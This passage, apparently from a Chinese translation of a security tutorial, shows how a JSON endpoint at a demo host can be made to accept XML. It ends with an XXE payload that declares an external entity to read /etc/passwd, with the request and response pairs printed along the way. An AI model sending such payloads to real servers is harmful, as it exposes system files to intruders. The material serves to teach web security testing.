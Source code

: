 复制

HTTP Response:

```javascript
HTTP/1.1 200 OK
Content-Type: application/json
Content-Length: 43

{"error": "no results for name netspitest"}
```

复制

##### 进一步请求和响应

现在我们尝试将 Content-Type 修改为 application/xml HTTP Request:

```javascript
POST /netspi HTTP/1.1
Host: someserver.netspi.com
Accept: application/json
Content-Type: application/xml
Content-Length: 38

{"search":"name","value":"netspitest"}
```

复制

HTTP Response:

```javascript
HTTP/1.1 500 Internal Server Error
Content-Type: application/json
Content-Length: 127

{"errors":{"errorMessage":"org.xml.sax.SAXParseException: XML document structures must start and end within the same entity."}}
```

复制

##### 最终的请求和响应

可以发现服务器端是能处理 xml 数据的，于是我们就可以利用这个来进行攻击

HTTP Request:

```javascript
POST /netspi HTTP/1.1
Host: someserver.netspi.com
Accept: application/json
Content-Type: application/xml
Content-Length: 288

<?xml version="1.0" encoding="UTF-8" ?>
<!DOCTYPE netspi [<!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
<root>
<search>name</search>
<value>&xxe;</value>
</root>
```
